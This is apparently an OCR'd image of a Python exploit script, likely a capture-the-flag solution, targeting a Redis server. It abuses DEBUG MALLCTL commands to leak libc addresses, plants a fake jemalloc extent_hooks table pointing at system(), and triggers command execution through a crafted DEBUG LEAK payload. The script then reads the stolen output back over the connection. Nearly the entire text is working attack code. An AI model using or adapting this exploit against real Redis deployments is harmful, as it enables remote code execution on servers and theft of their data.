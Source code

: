 ```python
08 dalloc;
10 destroy;
18 commit;
20 decommit;
28 purge_lazy;
30 purge_forced;
38 split;
"""
ext_hooks = int(run_cmd("DEBUG MALLCTL arena.1.extent_hooks"))
libc = ext_hooks - 0xb2a00 - 0x66a000
hook_alloc = libc + 0x6cdb40

fake_table = libc - 0x7ce1fd + 5
system_addr = libc + 0x50d60
info(f'libc: {hex(libc)}')
info(f'fake_table: {hex(fake_table)}')

arena = int(run_cmd("DEBUG MALLCTL arenas.create"))
info(f"arena: {arena}")

# change to new heap
run_cmd(f"DEBUG MALLCTL thread.arena {arena}")
run_cmd(f"DEBUG MALLCTL-STR arena.{arena}.dss primary")

payload =  b'1234\x00'
payload += flat(
    b'/r*>&8\x00\x00', system_addr,
    system_addr, system_addr,
    system_addr, system_addr,
)
run_cmd(b"DEBUG LEAK " + payload)
for i in range(100):
    run_cmd(b"DEBUG LEAK " + b'A'*100)
run_cmd(f"DEBUG MALLCTL arena.{arena}.extent_hooks {fake_table}")
run_cmd(f"PING")
sleep(5)
run_cmd(f"PING")
print(r.connection_pool.get_connection("name")._sock.recv(128))
input()
```

